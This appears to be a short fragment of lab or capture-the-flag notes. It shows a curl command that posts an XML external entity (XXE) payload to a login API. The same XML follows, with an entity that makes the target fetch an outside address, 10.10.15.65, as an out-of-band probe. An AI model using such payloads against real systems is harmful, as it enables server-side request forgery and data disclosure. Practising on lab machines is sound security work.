


____



```bash
curl -X POST http://$IP:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.65"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [
  <!ENTITY somename SYSTEM "http://10.10.15.65">
]>
<root>
  <email>&somename;</email>
  <password>P@ssw0rd123</password>
</root>
```


